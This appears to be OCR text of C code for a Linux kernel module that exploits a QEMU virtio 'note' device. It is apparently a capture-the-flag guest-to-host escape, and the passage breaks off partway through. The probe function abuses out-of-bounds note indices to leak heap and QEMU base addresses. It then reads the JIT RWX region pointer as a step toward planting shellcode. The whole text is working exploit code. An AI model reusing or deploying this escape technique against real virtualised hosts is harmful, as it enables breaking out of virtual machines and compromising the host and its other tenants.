 ```c
    virtqueue_kick(note_info->vq);
    // Wait for the buffer to be used by the device
    while (virtqueue_get_buf(note_info->vq, &len) == NULL)
        cpu_relax();

}

static int virtio_note_probe(struct virtio_device *vdev)
{
struct virtio_note_info *note_info;
req_t *request_buff;
char *data;
char *data2;
uint64_t qemu_base, rwx_base;
uint64_t heap_addr, target, offset, shellcode_offset;

    note_info = kmalloc(sizeof(struct virtio_note_info), GFP_KERNEL);
    if (!note_info)
        return -ENOMEM;
   
    note_info->vdev = vdev;
    note_info->vq = virtio_find_single_vq(vdev, NULL, "note-queue");
    if (IS_ERR(note_info->vq)) {
        kfree(note_info);
        return PTR_ERR(note_info->vq);
    }

    // Allocate and prepare your request buffer
    request_buff = kmalloc(sizeof(req_t), GFP_KERNEL);
    if (!request_buff) {
        kfree(note_info);
        return -ENOMEM;
    }
    
    data = kmalloc(0x40, GFP_KERNEL);
    data2 = kmalloc(0x40, GFP_KERNEL);

    // leak heap address
    request_buff->idx = 26;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);
    heap_addr = *(uint64_t *)(data+0x10);
    printk(KERN_DEBUG "1st heap addr leaked:  0x%llx\n", heap_addr);

    // leak a qemu address to calculate qemu base
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = READ;   // Example operation
    send_request(note_info, request_buff);
    qemu_base = *(uint64_t *)(data+0x20) - 0x86c800;
    printk(KERN_DEBUG "qemu binary base leaked:  0x%llx\n", qemu_base);

    /* leak tcg_qemu_tb_exec value in qemu .bss to get RWX zone address*/
    *(uint64_t *)(data+0x10) = (qemu_base+0x1cffb80);
    // Prepare a WRITE request
    request_buff->idx = 19;      // Example index
    request_buff->addr = virt_to_phys(data); // Example address
    request_buff->op = WRITE;   // Example operation
    send_request(note_info, request_buff);

    // leak rwx zone address
    request_buff->idx = 32;      // Example index
```